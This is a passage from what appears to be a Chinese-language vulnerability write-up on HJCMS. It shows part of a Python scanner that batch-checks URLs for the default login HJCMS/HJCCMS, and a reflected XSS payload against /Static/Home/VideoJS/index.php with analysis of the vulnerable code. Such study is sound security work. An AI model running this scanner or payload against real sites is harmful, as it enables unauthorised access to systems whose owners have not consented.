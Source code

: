 ```python
                count += 1
                target_url = url.replace('\n', '')  #取消换行符
                #time.sleep(1)
                res=self.poc(target_url)
                try:
                    if res.status_code==200 and "当前使用的是默认账号" in res.text:
                        print(f'\033[31m[{count}] 响应值为200，{target_url} 存在弱口令：HJCMS/HJCCMS\033[0m')
                    else:
                        print(f'[{count}] 响应值为{res.status_code}，{target_url} 不存在弱口令')
                except Exception as e:
                    print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-u','--url',type=str,default=False,help="目标地址，带上http://")
    parser.add_argument("-f",'--file', type=argparse.FileType('r'),default=False,help="批量检测，带上http://")
    args = parser.parse_args()
    run = poc()
    run.main(args.url, args.file)
```

看这一行代码`if res.status_code==200 and "当前使用的是默认账号" in res.text:`，是一个if判断语句。如果这个判断语句成立，那么就会判定存在弱口令。他没有去通过输入密码等尝试登录后返回的信息判断是否存在弱口令，而是利用了程序本身的特性——**没有更改密码，就会弹窗提醒。**  
这样就大大降低和程序的复杂性和时间成本。

0x02 反射XSS漏洞
------------

### 漏洞复现

漏洞位置：`/Static/Home/VideoJS/index.php`  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-efccdf5c99b8904aefdc55c6afbd3526f38790b8.png)  
漏洞payload：`?Play=%27;alert(1);%27`  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-bcbc11d19363987870d64bfc9219aabf53eae69b.png)  
成功弹窗

### 漏洞分析

先打开`/Static/Home/VideoJS/index.php`，找到获取URL参数的部分代码。

```javascript
<script type="text/javascript">
    var vPath = '<?php include('Helper.php'); echo safeRequest($_GET['url']);?>';
    var logo = '';
    var myVideo=initVideo({
        id:'myVideo',
        url:vPath,
        ad:{
        pre:{
        url:'',
        link:'',
            },
            },
        logo:{
        url:'logo.png',
        width:'100px'
        },
        });
</script>

```
